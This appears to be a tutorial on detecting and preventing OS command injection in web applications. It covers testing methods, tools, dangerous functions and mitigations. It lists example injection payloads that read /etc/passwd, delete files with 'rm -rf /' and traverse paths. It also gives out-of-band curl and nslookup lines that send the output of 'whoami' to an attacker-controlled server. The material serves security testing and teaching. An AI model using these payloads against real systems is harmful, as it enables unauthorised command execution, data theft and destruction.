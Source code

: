 **OS command injection** is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands. Any web interface that is not properly sanitized is subject to this exploit. With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords. OS command injection is preventable when security is emphasized during the design and development of applications.

**OS Command Injection** happens when an application passes unsafe user-supplied data (e.g., input from a form, URL parameters, or cookies) to a system shell without proper validation or sanitization.

**How It Works:**

**User Input:** The application takes input from a user (e.g., via a web form or API request).

**Unsafe Execution:** The input is directly used in a system command without proper validation or escaping.

Command Execution: An attacker crafts malicious input to inject additional OS commands, which are executed by the server.

**1. Manual Testing**

Identify Input Points: Look for places in the application where user input is accepted (e.g., forms, URL parameters, cookies, headers).

Test with Malicious Input: Inject special characters and commands to see if the application executes them.

Common injection payloads:

**;** (command separator in Unix-like systems)

**&** (background execution in Unix-like systems)

**|** (pipe operator)

**&&** (conditional execution)

**$(...) or `...`** (command substitution)

**||** (OR operator)

**> or <** (redirection operators)

Example payloads:

; ls (list files)

; whoami (check current user)

; cat /etc/passwd (read sensitive file)

; rm -rf / (delete files)

Observe Behavior: Check if the application executes the injected command or returns unexpected output.

2. Automated Tools

Use security scanning tools to automate the detection process. Some popular tools include:

Burp Suite: A web vulnerability scanner that can test for command injection.

OWASP ZAP: An open-source tool for finding vulnerabilities, including command injection.

Nikto: A web server scanner that can detect misconfigurations and vulnerabilities.

Nmap: Can be used to test for command injection in network services.

Acunetix: A commercial tool for detecting web vulnerabilities, including OS command injection.

3. Code Review

Look for Dangerous Functions: Identify functions that execute system commands and check if user input is passed to them without proper sanitization.

Examples of dangerous functions:

In PHP: system(), exec(), passthru(), shell_exec(), `...`

In Python: os.system(), subprocess.run(), subprocess.Popen()

In Java: Runtime.exec()

In Node.js: child_process.exec(), child_process.spawn()

Check for Input Sanitization: Ensure that user input is properly validated, sanitized, or escaped before being used in commands.

Use Safe Alternatives: Look for safer alternatives, such as parameterized APIs or libraries that avoid direct command execution.

4. Fuzz Testing

Use fuzzing tools to send random or malformed input to the application and observe its behavior.

Tools like wfuzz or ffuf can help automate this process.

5. Monitor Server Logs

Check server logs for unusual commands or errors that might indicate an attempted command injection.

Look for patterns like repeated use of special characters or unexpected commands.

6. Test for Blind Command Injection

Sometimes, the application does not return the output of the command directly. In such cases, use techniques like:

Time Delays: Inject commands like sleep 5 and observe if the application responds after a delay.

Out-of-Band (OOB) Techniques: Use tools like curl or wget to send requests to an external server controlled by you.

Example: ; curl http://your-server.com/$(whoami)

DNS Requests: Inject commands that trigger DNS lookups to your server.

Example: ; nslookup $(whoami).your-server.com

7. Check for Context-Specific Vulnerabilities

Some applications use user input in specific contexts (e.g., file paths, URLs). Test for vulnerabilities in these contexts:

Example: If the application uses user input in a file path, try injecting ../../etc/passwd to access sensitive files.

8. Use Security Headers and WAFs

Deploy a Web Application Firewall (WAF) to detect and block command injection attempts.

Use security headers like Content-Security-Policy to restrict the execution of unsafe scripts.

By combining these techniques, you can effectively detect and mitigate OS Command Injection vulnerabilities in your applications. Always follow secure coding practices and regularly test your applications for vulnerabilities.

Detecting **blind OS command injection** using time delays
You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond. The ping command is a good way to do this, because lets you specify the number of ICMP packets to send. This enables you to control the time taken for the command to run:

**& ping -c 10 127.0.0.1 &**

This command causes the application to ping its loopback network adapter for 10 seconds.
